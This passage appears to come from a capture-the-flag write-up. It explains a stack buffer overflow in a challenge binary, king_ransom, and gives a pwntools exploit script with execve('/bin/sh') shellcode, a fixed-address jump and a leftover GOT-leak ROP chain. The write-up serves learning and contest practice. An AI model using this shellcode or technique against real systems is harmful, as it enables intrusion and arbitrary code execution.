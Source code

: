 The first idea that came to mind was to use read_from_rwx_page to simply read the flag. This worked locally, and was able to read parts of a local flag. However, when tested on remote, the data read was complete garbage.

However, we soon found a buffer overflow vulnerability in float_accumulate. Because the binary did not have stack canaries enabled, we can overflow the return address and gain RIP control. Moreover, we can use store_to_rwx_page to store shellcode at a known address (0x12800000), and jump there using the buffer overflow bug. Putting everything together, the final exploit is shown below:

```python
from pwn import *

def compute_checksum(data, size):
    checksum = 0x1d0f
    for i in range(size):
        checksum ^= ord(data[i]) << 8
        for j in range(8):
            if ((1 << 15) & checksum) == 0:
                checksum = (checksum * 2) & 0xffff
            else:
                checksum = ((2 * checksum) ^ 0xa02b) & 0xffff
    return checksum & 0xffff

dump = ""
def construct_packet(size, vtable_row, vtable_col, data):
    p = ""
    p += "\x55\xaa"
    p += p16(size)
    p += p16(compute_checksum(data, size))
    p += chr(vtable_row)
    p += chr(vtable_col)
    p += data
    return p


context.bits = 64
context.arch = 'x86_64'
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"


data = p16(0x0) + p16(len(sc)) + sc
p1 = construct_packet(len(data), 2, 1, data)
# r.send(p)

do_write = 0x00000000004016AD
poprdi = 0x0000000000401dc3
poprsir15 = 0x0000000000401dc1
readgot = 0x0000000000404040
main = 0x0000000000401997

ropchain = "A"*(cyclic(0x40).index("faaagaaahaaaiaaaj"))
ropchain += p64(poprdi) + p64(readgot)
ropchain += p64(poprsir15) + p64(0x8) + p64(0x0)
ropchain += p64(do_write)
ropchain += p64(main)

ropchain = "A"*(cyclic(0x40).index("faaagaaahaaaiaaaj"))
ropchain += p64(0x12800000)

data = ropchain

p2 = construct_packet(len(data), 1, 1, data)
# r = process("./king_ransom", env={"LD_PRELOAD":"./libc.so"})
r = process(["ltrace", "./king_ransom"], env={"LD_PRELOAD":"./libc.so"})
```